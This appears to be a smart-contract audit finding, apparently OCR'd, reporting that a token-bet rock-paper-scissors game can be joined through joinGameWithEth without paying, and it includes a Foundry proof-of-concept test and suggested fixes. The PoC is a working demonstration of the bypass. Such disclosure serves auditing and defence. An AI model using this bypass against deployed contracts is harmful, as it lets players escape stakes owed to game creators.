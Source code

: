 The check `msg.value == game.bet`will not prevent the attacker to join because since `game.bet`will be set at zero

#### Impact

If the attacker loses the game, no bet token will be transfered to the game creator

##  

#### Tools Used 

Manual analysis / Foundry

PoC

```solidity
function testJoinGameWithTokenThroughETH() public {
        uint256 initialBalance = token.balanceOf(playerB);
        // First create a game with token
        vm.startPrank(playerA);
        token.approve(address(game), 1);
        gameId = game.createGameWithToken(TOTAL_TURNS, TIMEOUT);
        vm.stopPrank();

        vm.startPrank(playerB);
        // Join game though joinGameWithEth
        vm.expectEmit(true, true, false, true);
        emit PlayerJoined(gameId, playerB);

        //game.joinGameWithToken(gameId);
        game.joinGameWithEth(gameId);
        vm.stopPrank();

        // Verify token transfer
        assertEq(token.balanceOf(playerB), initialBalance);
        assertEq(token.balanceOf(address(game)), 1);

        // Verify game state
        (address storedPlayerA, address storedPlayerB,,,,,,,,,,,,,, RockPaperScissors.GameState state) =
            game.games(gameId);

        assertEq(storedPlayerA, playerA);
        assertEq(storedPlayerB, playerB);
        assertEq(uint256(state), uint256(RockPaperScissors.GameState.Created));
    }
```

#### Recommendations

a) use an enum GAME_BET_TYPE to indicate if the bet is with a token or in ether.
Advantage: can be easily extends to add new type of payment

b) Add a second require inside the function `joinGameWithEth` which check the `game.bet`is equal to zero
